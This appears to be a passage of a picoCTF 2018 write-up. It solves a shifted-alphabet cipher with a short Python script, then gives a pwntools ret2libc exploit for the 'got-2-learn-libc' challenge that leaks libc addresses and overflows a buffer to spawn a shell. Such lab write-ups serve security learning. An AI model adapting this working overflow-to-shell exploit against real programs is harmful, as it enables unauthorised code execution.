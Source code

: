After some experimenting the alphabet was found out to be between ascii 0x20 (Space) and 0x7e (Tilde). Key was brute forced to -34.
```python
import sys

with open('ciphertext', 'rb') as f:
    t = f.read()

key = -34
for i in t:
    i += key
    if i < 0x20:
        i += 0x7e - 0x20
    sys.stdout.write(chr(i))

sys.stdout.write('\n')
```

# got-2-learn-libc
### Binary Exploitation: 250p
This [program](https://2018shell2.picoctf.com/static/b27410500910a674bdad0bff6dbde5ca/vuln) gives you the address of some system calls. Can you get a shell? You can find the program in /problems/got-2-learn-libc\_3\_6e9881e9ff61c814aafaf92921e88e33 on the shell server. [Source](https://2018shell2.picoctf.com/static/b27410500910a674bdad0bff6dbde5ca/vuln.c).

The program prints some offsets to libc functions. We want execv. Check offset between read (printed by program) and execv with objdump. Note that this offset differs on my local machine and on the target server. Useful string is "/bin/sh" which can be pushed to the stack before calling execv. It wants 4 bytes between the address and the argument. That is why p\_shell is pushed twice. Number of A's needed found with gdb.
```python
from pwn import *

offset_to_execv = -162960
#offset_to_execv = -150720

p = process('./vuln')
print p.recvuntil('puts: ')
s_puts = p.readline()
print s_puts
p_puts = p32(int(s_puts, 16))

print p.recvuntil('read: ')
s_read = p.readline()
print s_read
p_execv = p32(int(s_read, 16) + offset_to_execv)

print p.recvuntil('useful_string: ')
s_shell = p.readline()
print s_shell
p_shell = p32(int(s_shell, 16))

print p.recvuntil('Enter a string:')

payload = 'A' * 160 + p_execv + p_shell + p_shell

p.sendline(payload)
p.interactive()

print p.recvall()
p.close()
```